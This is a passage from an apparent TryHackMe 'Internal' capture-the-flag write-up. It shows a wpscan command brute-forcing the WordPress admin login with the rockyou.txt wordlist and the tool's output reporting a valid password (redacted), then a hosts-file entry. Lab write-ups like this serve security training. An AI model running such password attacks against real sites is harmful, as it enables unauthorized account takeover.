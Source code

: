 ```console
 | Confirmed By: Login Error Messages (Aggressive Detection)

``` 
A user **admin** is found by wpscan. As there was not much on the website, I decided to bruteforce the login credential for the user admin with **rockyou.txt** wordlist.
## Bruteforcing login password for admin using wpscan
```console
local@local:~/Documents/tryhackme/internal$ wpscan --url http://10.10.4.68/blog -U admin -P /usr/share/wordlists/rockyou.txt -t 20
_______________________________________________________________
         __          _______   _____                                                    
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®                    
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |                                                                                                                          
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|
                                                                                        
         WordPress Security Scanner by the WPScan Team
                         Version 3.8.10  
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / <wp-password-redacted>                                                                                                                                                     
Trying admin / winxclub Time: 00:02:54 <                                                                                               > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: <wp-password-redacted>
[+] Finished: Sun Nov 29 18:21:13 2020
[+] Requests Done: 3924
[+] Cached Requests: 26
[+] Data Sent: 1.903 MB
[+] Data Received: 2.299 MB
[+] Memory used: 230.035 MB
[+] Elapsed time: 00:03:03
```
We find a valid password for user admin. So, let's login to the wordpress admin dashboard and as I soon as I  opened **/blog/wp-admin**, it redirects us to internal.thm, so lets add this entry to the our /etc/hosts file.
```console
10.10.4.68      internal.thm
```
## Admin Dashboard